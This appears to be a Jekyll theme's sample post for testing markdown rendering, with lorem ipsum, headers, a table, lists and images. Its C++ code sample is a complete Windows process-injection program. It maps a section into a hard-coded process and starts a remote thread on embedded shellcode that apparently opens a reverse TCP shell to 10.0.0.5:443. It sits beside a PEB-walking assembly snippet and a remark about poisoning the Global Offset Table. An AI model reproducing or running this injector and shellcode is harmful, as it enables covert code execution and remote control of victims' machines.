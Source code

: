```yaml
---
layout: post
title: "sample post just for test"
date: 2025-08-01
categories: samples
permalink: "sample-post-just-for-test"
noindex: true
sitemap: false
tag: 
    - styles 
    - md
---
```


Lorem ipsum dolor sit amet, consectetur adipiscing elit. Fusce bibendum neque eget nunc mattis eu sollicitudin enim tincidunt. Vestibulum lacus tortor, ultricies id dignissim ac, bibendum in velit.

Text can be **bold**, _italic_, or ~~strikethrough~~.

[Link to another page](https://github.com/AmwNLTL).

There should be whitespace between paragraphs.

There should be whitespace between paragraphs. We recommend including a README, or a file with information about your project.

# Header 1

This is a normal paragraph following a header. GitHub is a code hosting platform for version control and collaboration. It lets you and others work together on projects from anywhere.

## Header 2

> This is a blockquote following a header.
>
>
> In order to control the flow of program execution or arbitrarily execute specific code or function, we must overwrite one of the function pointers or poison the Goblal Offset Table.

### Header 3

```c++
#include <iostream>
#include <Windows.h>
#pragma comment(lib, "ntdll")

typedef struct _LSA_UNICODE_STRING { USHORT Length;	USHORT MaximumLength; PWSTR  Buffer; } UNICODE_STRING, * PUNICODE_STRING;
typedef struct _OBJECT_ATTRIBUTES {	ULONG Length; HANDLE RootDirectory; PUNICODE_STRING ObjectName; ULONG Attributes; PVOID SecurityDescriptor;	PVOID SecurityQualityOfService; } OBJECT_ATTRIBUTES, * POBJECT_ATTRIBUTES;
typedef struct _CLIENT_ID { PVOID UniqueProcess; PVOID UniqueThread; } CLIENT_ID, *PCLIENT_ID;
using myNtCreateSection = NTSTATUS(NTAPI*)(OUT PHANDLE SectionHandle, IN ULONG DesiredAccess, IN POBJECT_ATTRIBUTES ObjectAttributes OPTIONAL, IN PLARGE_INTEGER MaximumSize OPTIONAL, IN ULONG PageAttributess, IN ULONG SectionAttributes, IN HANDLE FileHandle OPTIONAL); 
using myNtMapViewOfSection = NTSTATUS(NTAPI*)(HANDLE SectionHandle,	HANDLE ProcessHandle, PVOID* BaseAddress, ULONG_PTR ZeroBits, SIZE_T CommitSize, PLARGE_INTEGER SectionOffset, PSIZE_T ViewSize, DWORD InheritDisposition, ULONG AllocationType, ULONG Win32Protect);
using myRtlCreateUserThread = NTSTATUS(NTAPI*)(IN HANDLE ProcessHandle, IN PSECURITY_DESCRIPTOR SecurityDescriptor OPTIONAL, IN BOOLEAN CreateSuspended, IN ULONG StackZeroBits, IN OUT PULONG StackReserved, IN OUT PULONG StackCommit, IN PVOID StartAddress, IN PVOID StartParameter OPTIONAL, OUT PHANDLE ThreadHandle, OUT PCLIENT_ID ClientID);

int main()
{
	unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";
	
	myNtCreateSection fNtCreateSection = (myNtCreateSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtCreateSection"));
	myNtMapViewOfSection fNtMapViewOfSection = (myNtMapViewOfSection)(GetProcAddress(GetModuleHandleA("ntdll"), "NtMapViewOfSection"));
	myRtlCreateUserThread fRtlCreateUserThread = (myRtlCreateUserThread)(GetProcAddress(GetModuleHandleA("ntdll"), "RtlCreateUserThread"));
	SIZE_T size = 4096;
	LARGE_INTEGER sectionSize = { size };
	HANDLE sectionHandle = NULL;
	PVOID localSectionAddress = NULL, remoteSectionAddress = NULL;
	
	// create a memory section
	fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
	
	// create a view of the memory section in the local process
	fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);

	// create a view of the memory section in the target process
	HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
	fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);

	// copy shellcode to the local view, which will get reflected in the target process's mapped view
	memcpy(localSectionAddress, buf, sizeof(buf));
	
	HANDLE targetThreadHandle = NULL;
	fRtlCreateUserThread(targetHandle, NULL, FALSE, 0, 0, 0, remoteSectionAddress, NULL, &targetThreadHandle, NULL);

	return 0;
}
```

```txt
.386 
.model flat, stdcall 
.stack 4096
assume fs:nothing

.code 
	main proc
			mov eax, [fs:30h]		    ; Pointer to PEB (https://en.wikipedia.org/wiki/Win32_Thread_Information_Block)
			mov eax, [eax + 0ch]		; Pointer to Ldr
			mov eax, [eax + 14h]		; Pointer to InMemoryOrderModuleList
			mov eax, [eax]				  ; this program's module
			mov eax, [eax]				  ; ntdll module
			mov eax, [eax -8h + 18h]; kernel32.DllBase
			
			mov ebx, 0				      ; just so we can put a breakpoint on this
	main endp
	end main
```


### Table

| head1        | head two          | three |
|:-------------|:------------------|:------|
| ok           | good swedish fish | nice  |
| out of stock | good and plenty   | nice  |
| ok           | good `oreos`      | hmm   |
| ok           | good `zoute` drop | yumm  |

### There's a horizontal rule below this.

* * *

### Here is an unordered list:

*   Item foo
*   Item bar
*   Item baz
*   Item zip

### And a nested list:

- level 1 item
  - level 2 item
  - level 2 item
    - level 3 item
    - level 3 item
- level 1 item
  - level 2 item
  - level 2 item
  - level 2 item
- level 1 item
  - level 2 item
  - level 2 item
- level 1 item

### Small image

![Octocat](https://github.githubassets.com/images/icons/emoji/octocat.png)

### Large image

![here should be kitty cat](../assets/images/kitty-cat-1.png)

```txt
Long, single-line code blocks should not wrap. They should horizontally scroll if they are too long. This line should be long enough to demonstrate this.
```

```txt
The final element.
```